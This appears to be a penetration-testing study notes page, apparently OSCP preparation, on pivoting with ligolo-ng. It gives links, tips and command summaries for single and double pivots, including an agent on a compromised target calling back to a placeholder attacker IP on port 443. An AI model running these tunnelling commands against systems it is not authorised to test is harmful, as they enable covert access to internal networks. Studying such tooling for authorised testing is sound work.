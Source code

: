 # Pivoting (Tunneling & Forwarding)

{% embed url="https://www.reddit.com/r/oscp/comments/1akvtwe/ligolo_chisel_and_painfully_slow_nmap_scans/" fullWidth="false" %}

{% hint style="info" %}
Upload nmap binary to compromised machine and scan from there instead of scanning via ligolo incase it don't work
{% endhint %}

{% embed url="https://medium.com/@raphaeltzy13/pivoting-with-ligolo-active-directory-82a86d739409" %}

{% embed url="https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16" %}
finish revshells and callback section
{% endembed %}

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/" %}
In this one, for double pivot, first session is closed and new direct link is made with machine 2 and kali
{% endembed %}

{% embed url="https://medium.com/@Thigh_GoD/ligolo-ng-finally-adds-local-port-forwarding-5bf9b19609f9" %}
Add 240.0.0.1 to ip route instead of target IP, all ports will be forwarded to this IP eg. 240.0.0.1:8080 will show the website hosted on target which wasn't accessible earlier
{% endembed %}

```
Wreath -> invoke-portscan.ps1 comms mentioned too (instead of nmap)
```

### Summary

```
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
ligolo -selfcert -laddr 0.0.0.0:443 
#Accepts connections at port 443

TARGET
.\agent.exe -connect <attacker IP here>:443 -retry -ignore-cert

KALI
session
1
ifconfig
add IP of internal network to our route
NEW TAB
sudo ip route add xxx.xxx.xxx.0/24 dev ligolo
ip route list
BACK TO LIGOLO
start
```

#### Double Pivot

```
EXISTING SESSION
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list
./agent.exe -connect <IP of First Pivot Point>:11601 -ignore-cert
KALI
NEW TAB
sudo ip add route <New_Network> dev ligolo-double
session
2
tunnel_start --tun ligolo-double
```
